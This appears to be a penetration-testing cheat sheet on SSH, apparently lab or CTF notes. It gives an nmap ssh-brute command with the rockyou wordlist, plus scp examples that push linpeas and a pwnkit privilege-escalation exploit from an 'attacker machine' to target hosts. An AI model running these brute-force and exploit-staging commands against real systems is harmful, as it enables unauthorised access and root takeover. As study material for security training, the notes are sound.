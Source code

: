 ﻿# SSH

## Ports
- 22

## Resources
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh

## Brute force

### Resources

- https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/

### nmap

    nmap 192.168.56.108 -p 22 --script ssh-brute --script-args userdb=/kali-share/downloads/viking2.dic,passdb=/usr/share/wordlists/rockyou.txt

## Upload
Syntax:

    scp <source> <destination>
To copy a file from B to A while logged into B:

    scp /path/to/file username@a:/path/to/destination
To copy a file from B to A while logged into A:

    scp username@b:/path/to/file /path/to/destination
Folder

    scp -r ~/local_dir user@host.com:/var/www/html/target_dir

Examples:

From attacker machine

    scp linpeas.sh floki@192.168.56.108:~/linpeas.sh
    scp -r ~/privesc/linux/pwnkit webmaster@192.168.56.111:~/
                                                                                              100%  806KB  34.0MB/s   00:00  